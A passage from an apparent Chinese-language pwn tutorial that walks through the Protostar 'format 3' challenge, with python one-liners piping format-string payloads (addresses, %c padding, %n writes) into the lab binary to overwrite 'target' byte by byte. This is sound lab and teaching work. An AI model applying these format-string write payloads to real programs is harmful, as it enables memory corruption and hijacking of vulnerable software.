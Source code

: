 ### 0x214 format 3

直接看 `vuln` ：

![protostar_format3_1](/image/2019-03-20-linux_pwn_format/protostar_format3_1.png)

这里整体和 `format 2` 基本是一致的，所以那些定位就不赘述了。

这里要将 `target` 改为具体值 `0x01025544` , 我们需要从 `target` 的低地址开始写入。

```sh
python -c "print b'\xF4\x96\x04\x08' + b'\xF5\x96\x04\x08' + b'\xF6\x96\x04\x08' + b'\xF7\x96\x04\x08' + b'%52c' + b'%12$n' + b'%13$n' + b'%14$n' + b'%15$n'" | ./format3
```

这里我们相当于是将整个 `target` 的值改为 `0x44444444`, 接下来我们需要改 `0x080496F5` 的值了。

```sh
python -c "print b'\xF4\x96\x04\x08' + b'\xF5\x96\x04\x08' + b'\xF6\x96\x04\x08' + b'\xF7\x96\x04\x08' + b'%52c' + b'%12$n' + b'%17c' + b'%13$n' + b'%14$n' + b'%15$n'" | ./format3
```

由于 `0x44` 到 `0x55` 只需要 `0x11` 个字节，所以，我们直接在第一个参数 `n` 后面 `%17c` 即可， 现在 `target`的值相当于改为 `0x55555544`。

由于 `0x55` 大于 `0x02` 的，因为 `n` 写入值，相当于是在做 `加法` 所以我们直接让 `0x02` 借一位，变成 `0x102`, 那这个问题就迎刃而解了，这里虽然是做 `加法` 但是实际并不会进一位，所以现在的 `target` 为 `0x02025544`
